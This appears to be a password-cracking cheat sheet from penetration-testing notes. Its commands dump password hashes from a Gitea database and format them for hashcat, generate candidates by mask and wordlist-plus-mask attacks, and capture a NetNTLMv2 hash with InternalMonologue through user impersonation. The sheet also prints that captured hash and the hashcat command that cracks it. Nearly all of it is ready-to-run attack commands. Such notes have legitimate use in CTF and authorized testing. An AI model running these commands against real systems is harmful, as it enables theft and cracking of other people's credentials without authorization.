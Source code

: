 > https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#crack-gitea-hash

```console
$ sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
```

```console
$ hashcat gitea.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
```

### Bruteforce based on the Pattern

```console
$ hashcat -a3 -m0 mantas?d?d?d?u?u?u --force --potfile-disable --stdout
```

### Generate Password Candidates: Wordlist + Pattern

```console
$ hashcat -a6 -m0 "e99a18c428cb38d5f260853678922e03" yourPassword|/PATH/TO/WORDLIST/<WORDLIST> ?d?d?d?u?u?u --force --potfile-disable --stdout
```

### Generate NetNLTMv2 with internalMonologue and crack with hashcat

```console
$ InternalMonologue.exe -Downgrade False -Restore False -Impersonate True -Verbose False -challange 002233445566778888800
```

### Result

```console
spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000
```

### Crack with hashcat

```console
$ hashcat -m5600 'spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000' -a 3 /PATH/TO/WORDLIST/<WORDLIST> --force --potfile-disable
```

### Rules

> https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule
